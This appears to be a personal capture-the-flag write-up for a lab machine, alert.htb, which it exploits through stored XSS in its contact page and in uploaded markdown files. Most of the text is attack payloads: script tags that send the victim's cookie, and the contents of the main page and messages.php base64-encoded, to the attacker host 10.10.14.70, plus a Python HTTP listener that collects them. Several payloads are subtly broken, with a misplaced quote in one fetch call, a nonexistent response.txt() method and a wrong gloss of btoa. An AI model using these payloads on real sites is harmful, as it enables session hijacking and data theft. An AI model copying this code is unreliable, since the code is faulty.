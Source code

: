 **we get XSS!**

![[Pasted image 20250620085725.png |xss when uploaded xss.md to alert.htb]]

## in alert.htb contact page

put this

```
<script>fetch'(http://10.10.14.70/?cookie='+document.cookie);</script>
```

![[Pasted image 20250620090101.png]]

##### check response in python server

> python -m http.server 80

![[Pasted image 20250620090142.png|response in our server, meaning the fetching worked from CONTACT page!]]
## try again with neo.md

![[Pasted image 20250620090410.png|source code for neo.md]]
```js
<script>
fetch('http://alert.htb')
.then(response=>response.txt())
.then(data => {
fetch("http://10.10.14.70/?data="+btoa(data));;
})
</script>
```
- btoa:base64-to-something?

run the python server again
> python -m http.server 80

![[Pasted image 20250620090730.png|got data from fetch]]

## base64 decode the data

pipe the data then base 64 decode it

## fetch from messages.php

neo.md
```js
<script>
fetch('http://alert.htb/messages.php')
.then(response=>response.txt())
.then(data => {
fetch("http://10.10.14.70/?data="+btoa(data));;
})
</script>
```
